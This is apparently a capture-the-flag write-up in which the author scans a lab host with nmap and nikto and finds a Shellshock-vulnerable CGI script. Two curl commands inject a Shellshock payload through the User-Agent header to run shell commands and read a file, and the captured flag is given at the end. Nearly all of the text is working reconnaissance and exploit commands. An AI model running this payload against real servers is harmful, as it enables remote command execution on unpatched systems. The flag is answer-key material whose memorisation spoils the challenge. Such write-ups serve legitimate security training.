 public IP : `18.198.209.0`

ping not working.

`nmap -A -oN nmap 18.198.209.0`:

	PORT     STATE  SERVICE VERSION
	22/tcp   open   ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
	80/tcp   closed http
	443/tcp  closed https
	3333/tcp open   http    Apache httpd 2.2.22 ((Debian))    
	4444/tcp closed krb524
	4446/tcp closed n1-fwp
	Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

`nikto -h http://18.198.209.0:3333`:

	http://18.198.209.0:3333/cgi-bin/status : ShellShock Vuln (http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271)

[exploit-CVE-2014-6271](https://github.com/opsxcq/exploit-CVE-2014-6271)

`curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'ls /home'" http://18.198.209.0:3333/cgi-bin/status`

`curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /home/inside'" http://18.198.209.0:3333/cgi-bin/status`

**FLAG{InSiDe_ShOcK_WaVe_StAy_HoMe_StAy_SaFe}**



